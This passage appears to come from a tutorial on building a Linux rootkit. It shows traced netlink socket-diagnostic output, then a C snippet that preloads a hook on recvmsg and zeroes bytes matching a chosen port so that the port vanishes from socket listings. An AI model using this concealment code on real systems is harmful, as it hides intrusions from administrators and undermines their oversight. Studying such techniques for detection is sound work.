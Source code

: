 ```
 {udiag_rqueue=0, udiag_wqueue=0}}, {{nla_len=5, nla_type=UNIX_DIAG_SHUTDOWN}, 0}]}, {{len=60, type=SOCK_DIAG_BY_FAMILY, flags=NLM_F_MULTI, seq=123456, pid=131170}, {udiag_family=AF_UNIX, udiag_type=SOCK_SEQPACKET, udiag_state=TCP_ESTABLISHED, udiag_ino=192713, udiag_cookie=[8308, 0]}, [{{nla_len=8, nla_type=UNIX_DIAG_PEER}, 192714}, {{nla_len=12, nla_type=UNIX_DIAG_RQLEN}, {udiag_rqueue=0, udiag_wqueue=0}}, {{nla_len=5, nla_type=UNIX_DIAG_SHUTDOWN}, 1}]}, {{len=104, type=SOCK_DIAG_BY_FAMILY, flags=NLM_F_MULTI, seq=123456, pid=131170}, {udiag_family=AF_UNIX, udiag_type=SOCK_STREAM, udiag_state=TCP_ESTABLISHED, udiag_ino=121802, udiag_cookie=[8309, 0]}, [{{nla_len=42, nla_type=UNIX_DIAG_NAME}, "/run/containerd/containerd.sock."...}, {{nla_len=8, nla_type=UNIX_DIAG_PEER}, 123313}, {{nla_len=12, nla_type=UNIX_DIAG_RQLEN}, {udiag_rqueue=0, udiag_wqueue=0}}, {{nla_len=5, nla_type=UNIX_DIAG_SHUTDOWN}, 0}]}, {{len=84, type=SOCK_DIAG_BY_FAMILY, flags=NLM_F_MULTI, seq=123456, pid=131170}, {udiag_family=AF_UNIX, udiag_type=SOCK_STREAM, udiag_state=TCP_ESTABLISHED, udiag_ino=61413, udiag_cookie=[8310, 0]}, [{{nla_len=23, nla_type=UNIX_DIAG_NAME}, "/run/user/1001/bus"}, {{nla_len=8, nla_type=UNIX_DIAG_PEER}, 57216}, {{nla_len=12, nla_type=UNIX_DIAG_RQLEN}, {udiag_rqueue=0, udiag_wqueue=0}}, {{nla_len=5, nla_type=U
```

As we are interested on hiding some ports, we will just preload the **recvmsg** function and look for two bytes which match our port:

```c
for (int i = 0; i < buffer_size; i++)
{
    if (((buffer[i]) == (port_to_hide >> 8) & 0xFF) &&
        buffer[i + 1] == (port_to_hide & 0xFF))
    {
        // Hide port
        buffer[i] = 0x00;
        buffer[i + 1] = 0x00;
    }
};
```
